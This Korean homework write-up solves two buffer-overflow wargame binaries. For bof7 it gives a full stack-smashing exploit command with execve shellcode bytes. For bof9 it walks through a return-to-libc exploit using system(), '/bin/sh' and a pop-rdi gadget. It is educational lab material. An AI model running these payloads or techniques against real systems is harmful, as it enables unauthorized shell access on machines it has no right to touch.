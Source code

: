# GBC Security_08

## HW #8

### Buffer Overflow
---

### 1. bof7

> `strcpy()`의 취약점을 이용한다.  
> main에서 인자를 받아 vuln에 전달해주고 있다. 

![bof7](https://user-images.githubusercontent.com/47182864/61393145-4d617100-a8fb-11e9-95e4-5b2a9104675a.png)

> main으로 전달되는 인자의 길이에 따라 buf의 주소 값이 달라진다.   
> 인자 전달값이 길어질수록, stack영역은 더 밑으로 내려가기 때문에 주소값이 낮아지고 있다.
> > +) 다른 bof문제에서 위와 같은 문제가 발생하지 않은 이유?   
> > __인자 값이 아닌 입력 스트림으로 input data를 전달하기 때문이다.__
입력스트림으로 받을려면, 프로그램이 이미 시작된 상황이며, 사용자가 얼마의 data를 입력할지 모르기 때문에 heap영역을 사용하고, 그 다음 stack에 복사한다.  
> > > ex) `bof6.c` —> get()로 받는다. main 함수가 시작되고, 해당 함수로 진입한 다음 입력을 받는다. 따라서 __스택에 아무런 영향을 주지 않고, 동적 메모리를 사용한다.__


![bof7-2](https://user-images.githubusercontent.com/47182864/61393142-4cc8da80-a8fb-11e9-874b-ef97a4514072.png)

> `buf`와 `ret`의 사이의 거리는 136byte이기 떄문에, return address까지 136byte만큼의 쓰레기 값이 채워진 후, 우리가 원하는 주소값 8byte를 덮어 씌워야 하기 때문에, 해당 프로그램을 익스플로잇 하기 위해서는 144byte의 인자를 전달해야 한다.   
> 따라서, 144byte의 인자가 전달되었을 때의 `buf` 주소값을 체크한다.
> > `buf` 주소값 : `0x7fffffffe400`

![bof7-3](https://user-images.githubusercontent.com/47182864/61394204-94e8fc80-a8fd-11e9-8e2e-9c9c43821ba7.png)

> payload

```shell
NOP (1byte) + shell code (27byte) + 쓰레기 값 (108byte) + return address (8byte)
```


> 익스플로잇

```shell
./bof7 `python -c "print '\x90'+'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x'*108 + '\x01\xe4\xff\xff\xff\x7f'"`
```
> >`\x90` : `\x90`은 `NOP`코드를 의미한다. return address의 시작이 \x00으로 null이기 때문에, 값이 들어가지 않는 것을 방지하기 위해, `NOP`코드를 1byte넣어주고, return address를 \x01로 고쳐줄 수 있다. (`NOP`코드를 더 늘려줘도 괜찮다. 단, 뒤의 쓰레기값과 리턴 어드레스를 적절하게 고쳐줘야 한다.)

> > `'x'*108` : 전체 144byte에서 nop이 1byte, 쉘코드가 27byte, 리턴 어드레스가 8byte를 차지하고 있기 때문에, 쓰레기값은 남은 108byte를 채워줘야 한다.  

> > `\x01\xe4\xff\xff\xff\x7f` : return address를 16진수로 저장하기 위해서는 \x를 사용하여 리틀엔디안 방식으로 기입해야한다.     
    
> [ result ]

![bof7-4](https://user-images.githubusercontent.com/47182864/61394206-95819300-a8fd-11e9-93b2-f0293921d050.png)

### 2. bof9

#### sum up

* NX bit(DEP) 
	- `NX bit`: 실행권한이 제거된 메모리를 절대 실행하지 않는다는 의미, Never eXecution  
	-  `DEP (Data Execution Prevention)` : 오버플로우 공격을 방어하기 위해 스택에 로드된 쉘코드가
실행되지 않도록 한 것 (윈도우 운영체제)

* NX bit(DEP)가 활성화 되어 있을 경우, 보호된 메모리 영역에서 코드를 실행이 감지되면 Accesss Violation이 발생하면서 프로그램이 종료되어 버린다. 따라서 공격자는 메모리 제어가 가능하더라도 쉘코드를 실행할 수가 없게 된다.

* RTL (Return To Libc)
	- return address 영역에 공유 라이브러리 함수의 주소로 변경해, 해당 함수를 호출하는 방식
	- 즉, 메모리에 미리 적재되어 있는 공유 라이브러리를 이용하여(libc), 바이너리에 원하는 함수가 없어도 공유 라이브러리에서 원하는 함수를 사용할 수 있는 공격 기법이다.  
	- RTL 기법을 이용하여, NX bit(DEP)를 우회할 수 있다.
	
* Gadget
	- stack pointer를 다음 함수의 주소로 이동시켜주는 코드 조각
	- ex) pop, ret과 같은 코드들의 모음

* solving idea
	1. root shell을 탈취하기 위해, 쉘을 실행시켜야 하는데, 가장 간단한 방법은 system() 함수를 이용하는 것이다. system() 함수의 주소값을 구하자.
	2. system() 함수의 주소를 구했으니, 함수 내에 들어갈 파라미터의 주소를 구해야 한다. 쉘을 실행시키기 위해, "/bin/sh"라는 문자열이 들어가야하므로, 해당 문자열의 주소값을 구한다.
	3. 우리가 원하는 형태 system(“/bin/sh”)이므로, Return rdi 레지스터가 system(“/bin/sh”)을 가리키고 있어야 한다. rdi 레지스터에 어떻게 system(“/bin/sh”) 을 전달해야할까? `Rasm2 -b x64 ‘pop rdi ; ret’`
	4. Return Address 영역에 `pop rdi, ret` 코드가 저장된 주소 값을 저장한다.
	5. Return Address를 bin/sh가 있는 주소값으로 더 덮어쓴다.
	6. pop을 하면 rsp에 있는 것을 rdi에 저장
	7. 그럼 위에 있던 bin/sh가 ret에 덮어씌워진다.
		
#### Solving 
> `buf`와 `ret`사이의 메모리 공간 크기를 구한다.

![bof9-1](https://user-images.githubusercontent.com/47182864/61397741-84d51b00-a905-11e9-9c48-c1c679a034de.png)

![bof9-2](https://user-images.githubusercontent.com/47182864/61397744-856db180-a905-11e9-8171-7cb9311d4357.png)

> `system` 함수의 주소값을 찾는다.
> > pwndbg> __p system__

![bof9-system](https://user-images.githubusercontent.com/47182864/61397750-86064800-a905-11e9-8013-0b506a506cd5.png)

> `/bin/sh` 문자열의 주소값을 찾는다.
> > pwndbg> __serarch /bin/sh__

![bof9-bin](https://user-images.githubusercontent.com/47182864/61397745-856db180-a905-11e9-9224-f0210b96b241.png)

> `pop rdi ; ret` gadget의 주소값을 찾는다.  

![bof9-ldd](https://user-images.githubusercontent.com/47182864/61397747-856db180-a905-11e9-8e0e-37186ef58d52.png)

![bof9-rop](https://user-images.githubusercontent.com/47182864/61397749-86064800-a905-11e9-95e3-a51ae9bd21ce.png)

![bof9-garget](https://user-images.githubusercontent.com/47182864/61397746-856db180-a905-11e9-9a15-af66418aceba.png)


> payload

```shell
쓰레기값 (24byte) + pop rdi ; ret 가젯의 주소 (8byte) + /bin/sh 문자열의 주소 (8byte) + system 함수의 주소 (8byte)
```

> 익스플로잇

```shell
(python -c "print 'x'*24+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
```

> [result]

![bof9-result](https://user-images.githubusercontent.com/47182864/61397748-86064800-a905-11e9-8100-c64150dacd7c.png)


---
### 2. ETC
---
감사합니당 : ) : ) : ) : D 

